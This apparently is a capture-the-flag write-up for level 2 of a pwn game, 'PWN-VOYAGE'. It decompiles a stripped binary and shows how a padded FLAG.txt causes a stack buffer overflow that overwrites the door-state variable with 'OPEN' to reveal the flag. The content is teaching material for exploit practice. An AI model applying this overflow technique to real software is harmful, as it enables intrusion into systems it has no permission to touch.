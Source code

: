 # PWNVOYAGE / GAME / PWN-VOYAGE_L2

Finally, things get more interesting. With the `file` command, we can observe that the binary is stripped. Additionally, we are prompted for a file named **FLAG.txt** containing the flags from the previous level.

```

caigoshinobi@freyja:~$ file ./PWN-VOYAGE_L2
./PWN-VOYAGE_L2: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=cb162e623a468bace4baa7d427caa120424f421b, for GNU/Linux 3.2.0, stripped

caigoshinobi@freyja:~$ ./PWN-VOYAGE_L2

============================================================

 ██▓    ▓█████ ██▒   █▓▓█████  ██▓           ██▓ ██▓
▓██▒    ▓█   ▀▓██░   █▒▓█   ▀ ▓██▒          ▓██▒▓██▒
▒██░    ▒███   ▓██  █▒░▒███   ▒██░          ▒██▒▒██▒
▒██░    ▒▓█  ▄  ▒██ █░░▒▓█  ▄ ▒██░          ░██░░██░
░██████▒░▒████▒  ▒▀█░  ░▒████▒░██████▒      ░██░░██░
░ ▒░▓  ░░░ ▒░ ░  ░ ▐░  ░░ ▒░ ░░ ▒░▓  ░      ░▓  ░▓
░ ░ ▒  ░ ░ ░  ░  ░ ░░   ░ ░  ░░ ░ ▒  ░       ▒ ░ ▒ ░
  ░ ░      ░       ░░     ░     ░ ░          ▒ ░ ▒ ░
====░==░===░==░=====░=====░==░====░==░=======░===░==========
                    ░
You mercilessly annihilate a pair of bloodthirsty undead,
their pitiable forms disintegrating in the face of your
power. However, as you reach the very threshold of the Vault,
a discouraging sight awaits you: The Vault's door is veiled
in an enigmatic magical aura, a barrier challenging anyone
to enter... yet you charge ahead with all your might.

============================================================


------------------------------------------------------
| *FLAG.txt REQUIRED*                                |
|                                                    |
| Create the FLAG.txt file and insert the flags of   |
| the previous levels, one per line.                 |
------------------------------------------------------

```

After creating the required file, we discover that Knight is attempting to break through the Vault door, which is flagged as **CLOSED**.

```

-$> Access Granted. Now let's pwn this f*cking door

-$> You give an almighty shove. The door is now CLOSED

-$> You are hurled backward by a spell from the ancient gates, compelled
    to retreat a few paces. The curses of defense begin to graze your armor,
    slowly dissolving the metal. Yet, the voice of your conscience continues
    to echo just one thing: Keep pushing.

```

We move on to the binary with dogbolt.org and try to make sense of it.

```

__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char v4[304]; // [rsp+10h] [rbp-2D0h] BYREF
  char ptr[265]; // [rsp+140h] [rbp-1A0h] BYREF
  char haystack[135]; // [rsp+249h] [rbp-97h] BYREF
  FILE *v7; // [rsp+2D0h] [rbp-10h]
  FILE *stream; // [rsp+2D8h] [rbp-8h]

  sub_164E();
  strcpy(haystack, "CLOSED");
  stream = fopen("FLAG.txt", "r");
  if ( stream )
  {
    fread(ptr, 1uLL, 0x12CuLL, stream);
    fclose(stream);
    ptr[33] = 0;
    if ( (unsigned int)sub_151D(ptr) )
    {
      printf("-$> You give an almighty shove. The door is now %s\n", haystack);
      if ( strstr(haystack, "OPEN") )
      {
        v7 = fopen("FLAG.txt", "r");
        if ( v7 )
        {
          fread(v4, 1uLL, 0x12CuLL, v7);
          fclose(v7);
          sub_13EA(v4);
          return 0LL;
        }
        else
        {
          sub_14D8();
          return 1LL;
        }
      }
      else
      {
        puts(
          "\n"
          "-$> You are hurled backward by a spell from the ancient gates, compelled    \n"
          "    to retreat a few paces. The curses of defense begin to graze your armor,\n"
          "    slowly dissolving the metal. Yet, the voice of your conscience continues\n"
          "    to echo just one thing: Keep pushing.\n");
        return 1LL;
      }
    }
    else
    {
      return 0LL;
    }
  }
  else
  {
    sub_14D8();
    return 1LL;
  }
}

```

Some now we know that:

- The `haystack` variable is declared and initialized with the value **CLOSED**. This variable represents the state of the Vault door.

- The program attempts to open the file named **FLAG.txt** in read mode using `fopen`. If successful, it reads the content of the file into the `ptr` array with `fread`, limited to 300 bytes. Then, it closes the file.

- If the `haystack` contains **OPEN** it proceeds to open the **FLAG.txt** file again, reads its content into the `v4` array, closes the file, and calls the `sub_13EA(v4)` function.

- The `sub_13EA` function takes a hexadecimal string and processes it to obtain the flag. 


We can also note a possible vulnerability in this code, primarily due to the use of `fread`. The reason is that `fread` reads data from the file without checking the size of the data compared to the size of the destination buffer, which can lead to a stack overflow if the read data exceeds the buffer's size.


If indeed we insert some A's inside **FLAG.txt**:

```

caigoshinobi@freyja:~$ cat FLAG.txt
NTRLGC{TH1SH1LLSM3LLSL1K3V1CT0RY}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```

```

-$> Access Granted. Now let's pwn this f*cking door

-$> You give an almighty shove. The door is now AAAAAA


-$> You are hurled backward by a spell from the ancient gates, compelled
    to retreat a few paces. The curses of defense begin to graze your armor,
    slowly dissolving the metal. Yet, the voice of your conscience continues
    to echo just one thing: Keep pushing.
	
```


It works! So it's possible to insert the string **OPEN** inside the `haystack` variable:

```

caigoshinobi@freyja:~$ cat FLAG.txt
NTRLGC{TH1SH1LLSM3LLSL1K3V1CT0RY}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAOPEN

```
```

caigoshinobi@freyja:~$ ./PWN-VOYAGE_L2

============================================================

 ██▓    ▓█████ ██▒   █▓▓█████  ██▓           ██▓ ██▓
▓██▒    ▓█   ▀▓██░   █▒▓█   ▀ ▓██▒          ▓██▒▓██▒
▒██░    ▒███   ▓██  █▒░▒███   ▒██░          ▒██▒▒██▒
▒██░    ▒▓█  ▄  ▒██ █░░▒▓█  ▄ ▒██░          ░██░░██░
░██████▒░▒████▒  ▒▀█░  ░▒████▒░██████▒      ░██░░██░
░ ▒░▓  ░░░ ▒░ ░  ░ ▐░  ░░ ▒░ ░░ ▒░▓  ░      ░▓  ░▓
░ ░ ▒  ░ ░ ░  ░  ░ ░░   ░ ░  ░░ ░ ▒  ░       ▒ ░ ▒ ░
  ░ ░      ░       ░░     ░     ░ ░          ▒ ░ ▒ ░
====░==░===░==░=====░=====░==░====░==░=======░===░==========
                    ░
You mercilessly annihilate a pair of bloodthirsty undead,
their pitiable forms disintegrating in the face of your
power. However, as you reach the very threshold of the Vault,
a discouraging sight awaits you: The Vault's door is veiled
in an enigmatic magical aura, a barrier challenging anyone
to enter... yet you charge ahead with all your might.

============================================================

-$> Access Granted. Now let's pwn this f*cking door

-$> You give an almighty shove. The door is now OPEN

-$> Flag: NTRLGC{H3LL0B1TCH3S!}

```